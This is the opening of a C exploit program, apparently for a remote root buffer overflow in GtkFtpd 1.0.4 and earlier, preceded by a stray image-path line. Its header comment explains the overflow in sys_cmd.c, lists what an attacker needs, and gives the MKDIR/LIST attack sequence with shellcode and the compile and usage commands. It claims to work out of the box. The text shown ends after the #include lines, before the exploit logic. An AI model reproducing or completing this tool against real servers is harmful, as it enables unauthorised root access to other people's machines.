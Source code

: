 EXP
---

    /**********************************************************
     * [ gtkftpd[v1.0.4(and below)]: remote root buffer overflow exploit. ]
     *
     * by: vade79/v9 v9 at fakehalo.deadpig.org (fakehalo/realhalo)
     *
     * Url:
     * http://gtkftpd.sourceforge.net/
     *
     * GtkFtpd, versions v1.0.4 and below(as of this time), contain a
     * remotely exploitable buffer overflow. the overflow occurs when
     * GtkFtpd allocates the appropriate amount of memory to hold a
     * filename or directory(256 bytes), but does not account for the
     * date/user/stat prefix(~40 bytes) it prepends to the buffer.
     *
     * When exploited, things are made easier due to the fact that
     * GtkFtpd does not chroot() or drop its root privileges(as are
     * required to run the program itself) while running. And one step
     * more easier because when the buffer is overflown it is in a child
     * process, making it possible to brute force(not crash).
     *
     * Requirements to exploit:
     * - A valid account. (user/pass, anonymous will do)
     * - A writable directory. (usually gtkftpd makes any dir writable)
     *
     * Usage:
     * # cc xgtkftpd.c -o xgtkftpd
     * # ./xgtkftpd [-Psupcbanrd] -h hostname
     * *
     * Exploit workings(ftp commands):
     * MKDIR <large name/causes overflow>
     * LIST -<shellcode> (where the overflow occurs)
     *
     * The exploitable code itself is found in src/sys_cmd.c:
     * 12:#define BUF_SIZE 256
     * 21:char buf[BUF_SIZE];
     * 57:sprintf(buf, "%s\t%s", perm_date_siz, entr->d_name);
     *
     * Note:
     * Make sure the directory used to "LIST" does not already contain
     * any large filenames or directories, as the first overly long one
     * to list will cause the overflow. (which will fail the exploit)
     * *
     * (should work out of the box on generic linux, tested on rh7.1.
     * squished, un-tab'd, un-space'd, exploit code; just how i like it.)
     **********************************************************/
    #include <stdio.h>
    #include <stdlib.h>
    #include <stdarg.h>
    #include <string.h>
    #include <unistd.h>
    #include <signal.h>
    #include <getopt.h>
    #include <ctype.h>
    #include <time.h>
    #include <netdb.h>
    #include <sys/socket.h>
    #include <sys/types.h>
    #include <sys/time.h>
    #include <netinet/in.h>
    #include <arpa/inet.h>
    /* default definitions, change at will. */